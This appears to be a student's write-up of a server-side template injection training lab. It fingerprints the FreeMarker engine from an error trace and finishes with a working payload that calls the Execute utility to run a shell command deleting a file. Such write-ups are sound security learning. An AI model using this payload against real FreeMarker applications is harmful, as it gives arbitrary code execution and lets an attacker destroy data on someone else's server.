 # Practitioner Lab 109: Server-side template injection using documentation

---

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials:

```
content-manager:C0nt3ntM4n4g3r
```

![Untitled](Practitioner%20Lab%20109%20Server-side%20template%20injectio%20d82ba42842f84a6f8888ae2727fcbed7/Untitled.png)

![Untitled](Practitioner%20Lab%20109%20Server-side%20template%20injectio%20d82ba42842f84a6f8888ae2727fcbed7/Untitled%201.png)

As can be seen the 49 was outputted. 

```
${{<%[%'"}}%\l
```

when this was put into the query it did not output anything. meaning it was giving an error but no info was being displayed. 

```
(DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> foobar [in template "freemarker" at line 3, column 18] ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${foobar} [in template "freemarker" at line 3, column 16] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58) at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42) at lab.actions.common.Action.act(Action.java:57) at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23)
```

Putting ${foobar} gave the following error which tells me which version it is. 

![Untitled](Practitioner%20Lab%20109%20Server-side%20template%20injectio%20d82ba42842f84a6f8888ae2727fcbed7/Untitled%202.png)

This worked which means that now I can use the rm command to remove the file 

![Untitled](Practitioner%20Lab%20109%20Server-side%20template%20injectio%20d82ba42842f84a6f8888ae2727fcbed7/Untitled%203.png)

This solved the lab. 

```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")} 
```